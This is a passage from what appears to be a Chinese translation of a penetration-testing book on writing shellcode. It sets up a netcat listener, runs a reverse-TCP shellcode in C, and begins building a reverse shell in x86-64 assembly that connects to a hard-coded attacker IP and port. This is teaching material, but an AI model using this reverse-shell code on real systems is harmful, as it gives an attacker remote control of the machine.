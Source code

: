 ```
$ nc -lp 1234
```

在 Ubuntu 上，让我们编译并运行我们的 `reverse-tcp` shellcode：

```
$ gcc reverse-tcp.c -o reverse-tcp
$ ./reverse-tcp
```

再次回到我的 Kali —— 我连接上了！

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00216.gif)

这就是简单的！

现在，让我们在汇编中构建一个反向 TCP shell，然后将其转换为一个 shellcode。

`socket` 函数与我们在绑定 TCP 中解释的一样。将 `socket` 的输出移动到 RDI 寄存器中：

```
xor rax, rax
add rax, 41
xor rdi, rdi
add rdi, 2
xor rsi, rsi
inc rsi
xor rdx, rdx
syscall

mov rdi, rax
```

接下来是填充 `mysockaddr` 结构，除了我们必须以 32 位打包格式推出攻击者的 IP 地址。我们将使用 Python 来做到这一点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00217.gif)

所以我们的 IP 地址以 32 位打包格式是 `01eea8c0`。

让我们构建我们的结构并将栈指针移动到 RSI：

```
xor rax, rax 
push dword 0x01eea8c0
push word 0xd204
push word 0x02

mov rsi, rsp
```

现在，让我们构建 `connect` 函数：

```
 connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
```

然后，运行以下命令：

```
$ man 2 connect
```
